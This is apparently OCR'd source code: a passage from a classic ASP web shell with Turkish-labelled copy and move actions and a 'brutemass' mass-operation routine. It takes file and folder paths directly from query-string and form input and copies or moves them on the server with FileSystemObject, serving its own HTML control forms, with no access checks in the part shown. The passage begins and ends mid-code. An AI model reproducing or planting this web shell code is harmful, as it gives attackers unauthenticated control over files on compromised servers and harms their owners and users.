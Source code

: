             Set MeuArquivo = ObjFSO.GetFile(arquivo)
            Call brutemass(Replace(Trim(Request.QueryString("path")),"|","\"),"test")
        ElseIf Trim(Request.QueryString("massact")) = "dfc" Then
            Call brutemass(Replace(Trim(Request.Form("path")),"|","\"),"dfc")
        End If
    Case "fcopy"
            If Trim(Request.Form("submit1")) = "Copy" Then
        mptpath=Trim(Request.Form("path"))
        mptdest=Trim(Request.Form("cf"))
        Set ObjFSO = CreateObject("Scripting.FileSystemObject")
        isl = ""
        if Trim(Request.Form("islem"))="kopyala" then
            objFSO.CopyFolder mptpath,mptdest
            isl="Copied.." 
        elseif Trim(Request.Form("islem"))="tasi" then
            objFSO.MoveFolder mptpath,mptdest
            isl="moved.." 
        end if
        response.Write "Command: "&isl
        response.Write "&lt;br&gt;&lt;font color=red&gt;File From: &lt;/font&gt;" & mptpath & "&lt;br&gt;&lt;font color=red&gt;Copy to: &lt;/font&gt;" & mptdest
        response.Write "&lt;br&gt;"
        Else
        Response.Write "&lt;form method=""post"" action=""" & Request.ServerVariables("SCRIPT_NAME") & "?action=fcopy""&gt;"
        Response.Write "&lt;table cellpadding=0 cellspacing=0 align=center&gt;&lt;tr&gt;&lt;td width=100&gt;&lt;font size=2&gt;Copy Path : &lt;/td&gt;&lt;td&gt;"
        Response.Write "&lt;input type=hidden value='19' name=status&gt;&lt;input type=hidden value='"& Replace(Trim(Request.QueryString("path")),"|","\") &"' name=path&gt;&lt;input type=hidden value='"&time&"' name=Time&gt;"
        Response.Write "&lt;input style='width:250; height:21' value='"& Replace(Trim(Request.QueryString("path")) & "\","|","\") &"' name=cf&gt;"
        response.Write "&lt;input type=submit value='Copy' style='height:22;width:70' id=submit1 name=submit1&gt;"
        Response.Write "&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td colspan=3 align=center&gt;&lt;font size=2&gt;"
        response.Write "&lt;input type=radio name='islem' value='kopyala' checked&gt;Copy"
        response.Write "&lt;input type=radio name='islem' value='tasi'&gt;Move"
        response.Write "&lt;/table&gt;"
        response.Write "&lt;/form&gt;"
        End IF
    Case "filecopy"
            If Trim(Request.Form("submit1")) = "Copy" Then
        mptpath=Trim(Request.Form("path"))
        mptdest=Trim(Request.Form("cf"))
        Set ObjFSO = CreateObject("Scripting.FileSystemObject")
        isl = ""
        if Trim(Request.Form("islem"))="kopyala" then
            objFSO.CopyFile mptpath,mptdest
            isl="Copy.." 
        elseif Trim(Request.Form("islem"))="tasi" then
            objFSO.MoveFile mptpath,mptdest
            isl="move.." 
        end if
        response.Write "Command: "&isl
        response.Write "&lt;br&gt;&lt;font color=red&gt;File From: &lt;/font&gt;" & mptpath & "&lt;br&gt;&lt;font color=red&gt;Copy to: &lt;/font&gt;" & mptdest
        response.Write "&lt;br&gt;"
        Else
        Response.Write "&lt;form method=""post"" action=""" & Request.ServerVariables("SCRIPT_NAME") & "?action=filecopy""&gt;"
        Response.Write "&lt;table cellpadding=0 cellspacing=0 align=center&gt;&lt;tr&gt;&lt;td width=100&gt;&lt;font size=2&gt;Copy Path : &lt;/td&gt;&lt;td&gt;"